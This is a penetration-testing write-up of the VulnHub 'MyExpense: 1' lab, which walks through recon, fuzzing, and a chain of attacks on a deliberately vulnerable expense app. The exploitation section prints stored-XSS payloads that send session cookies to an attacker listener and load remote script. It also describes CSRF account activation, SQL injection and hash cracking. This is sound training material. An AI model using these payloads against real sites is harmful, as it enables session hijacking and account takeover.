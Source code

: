 ```yaml
---
layout: single
title: "VulnHub - MyExpense: 1"
excerpt: MyExpense is a deliberately vulnerable web application that allows you to train in detecting and exploiting different web vulnerabilities. Unlike a more traditional "challenge" application (which allows you to train on a single specific vulnerability), MyExpense contains a set of vulnerabilities you need to exploit to achieve the whole scenario.
date: 2025-10-08
classes: wide
header:
  teaser: /assets/images/vh.png
  teaser_home_page: true
categories:
  - vulnhub
tags:
  - xss
  - sqli
  - xsrf
  - brute-force
---
```

# Introduction
-------------
This writeup documents the penetration testing of the [**MyExpense: 1**](https://www.vulnhub.com/entry/myexpense-1,405/) machine. This machine has been downloaded from the [**VulnHub**](https://vulnhub.com) platform.

You are Samuel Lamotte and you have been fired from **Futura Business Informatique**. The company owes you €750, but you were fired. Right now, you are in your car in front of the company. Furthermore, you are on the company's internal network with your laptop. Your login credentials before being fired were **samuel:fzghn4lw**. 

Your mission will be to compromise the company's security in order to authorize the payment they owe you.

# Recon
------------------
## Enumeration of exposed services
----------------
First, we need to discover the IP of the MyExpense machine.

![](/assets/images/vh-myexpense/arp-scan.png)

Once we identify the victim machine it would be optimal to use **settarget** to set the target IP in the Polybar.

Usually, if the machine returns a TTL of 64 it's a Linux machine. If it returns a TTL of 128 it's a Windows machine. We can also use the util [**whichSystem**](https://github.com/Akronox/WichSystem.py). 

![](/assets/images/vh-myexpense/whichSystem.png)

Now we will perform a port scan on the machine. To work in an organized way we will use the function **mkt**.

![](/assets/images/vh-myexpense/mkt.png)

![](/assets/images/vh-myexpense/nmap_scan.png)

![](/assets/images/vh-myexpense/extractPorts.png)

![](/assets/images/vh-myexpense/targeted1.png)

![](/assets/images/vh-myexpense/targeted2.png)

We can see some ports open. The most interesting port is the 80 port. Once we have scanned all ports of the machine it's good to know the Debian codename behind the system, we need to Google the Apache version reported by nmap followed by '**launchpad**'.

![](/assets/images/vh-myexpense/launchpad.png)

We are facing a **Debian Stretch**.

## Web service enumeration
------------
Once the OS and exposed services have been enumerated it's time to enumerate the web server running on the port 80.

![](/assets/images/vh-myexpense/whatweb.png)

![](/assets/images/vh-myexpense/web.png)

![](/assets/images/vh-myexpense/wappalyzer.png)

As we know, we are facing a Debian Stretch machine running in the 80 port a web page with Apache and PHP.

## Fuzzing and file enumeration
-------------
We will apply brute force to the website to list directories and files. Once the attack finished, these were the results obtained:

![](/assets/images/vh-myexpense/gobuster1.png)

It detected several directories, among them it appears the admin panel at /admin. We will enumerate that directory, since accessing it returns **Error 403 - Forbidden**.

![](/assets/images/vh-myexpense/gobuster2.png)

We found a file 'admin.php' which we will access. We have an interesting table. We discover that our user is not samuel, but **slamotte**, and our account is currently disabled.

![](/assets/images/vh-myexpense/admin.php.png)


# Exploitation
-----------
## Identification and exploitation of vulnerabilities
------------
We will attempt to register a new account. After filling in the fields we notice the button is disabled; as simple as accessing the source code and removing the 'disabled' attribute from the button.

![](/assets/images/vh-myexpense/register.png)

If we look at the admin.php file we will see that the new account has been created but is disabled. So we will try to inject JavaScript when creating another account by placing a simple alert in 'Firstname' and another in 'Lastname' to see if it is vulnerable to XSS. If we access admin/admin.php it is interpreted correctly.

![](/assets/images/vh-myexpense/alert.png)

We will launch the following payload when creating a user:

![](/assets/images/vh-myexpense/pwned.js.png)

If we set up an HTTP server on port 80 with python3, we will notice that there is a user loading admin.php from time to time. We will load a payload in pwned.js to be executed by the victim and then, steal their session cookie.

![](/assets/images/vh-myexpense/stolen_cookie.png)

```js
var request = new XMLHttpRequest();
  request.open('GET', 'http://192.168.0.139/?cookie=' + document.cookie);
  request.send();
```

Once we obtain the user's session cookie we will inject it into our browser. It seems the user in question is an administrator, since when injecting it an error appears saying that an administrator user cannot be connected in two sessions.

Therefore, we will take advantage of this administrator user so that they perform the request I was going to make, which was to activate my user account.

```js
var request = new XMLHttpRequest();
  request.open('GET', 'http://192.168.0.126/admin/admin.php?id=11&status=active');
  request.send();
```

Once we access the site as slamotte, we must submit the expense report so that someone approves it.

![](/assets/images/vh-myexpense/750_sending.png)

In the information about my account we will see that I have a manager called Manon Riviere whom we can look up in admin.php. Also, we see there are several '**financial approvers**'. The most logical approach will be to trigger an XSS in the chat to steal cookies and, with luck, one will belong to a '**financial approver**'.

```js
var request = new XMLHttpRequest();
  request.open('GET', 'http://192.168.0.139:4646/?cookie=' + document.cookie);
  request.send();
```

We will listen on port 4646 and we will inject a message that contains:

```js
<script src="http://192.168.0.131:4646/pwned.js"></script>
```

![](/assets/images/vh-myexpense/user_cookies.png)

Once we receive requests, we will check them one by one until we first find Manon Riviere's (the account from which we will accept the payment). After that, we will go for Paul Baudouin who is my manager and also a financial approver and we will hijack his session.

![](/assets/images/vh-myexpense/manon_riviere_accepts.png)

The **Rennes** panel is vulnerable to **SQLI**. We will follow the following exploitation:

![](/assets/images/vh-myexpense/sqli1.png)

![](/assets/images/vh-myexpense/sqli2.png)

![](/assets/images/vh-myexpense/sqli3.png)

![](/assets/images/vh-myexpense/sqli4.png)

Finally, we obtain a string of users and passwords. We will format it with nvim to make it more readable.

![](/assets/images/vh-myexpense/hashes.png)

## Final exploitation
-----------------
To finish this intrusion we have to crack the hash of our target pbaudouin. We will do it online: [**https://hashes.com**](https://hashes.com)

![](/assets/images/vh-myexpense/cracked_hash.png)

To finish, we will log in as pbaudouin and send ourselves the €750.

![](/assets/images/vh-myexpense/expense_reports.png)

To obtain the flag we must log in as slamotte.

![](/assets/images/vh-myexpense/flag.png)
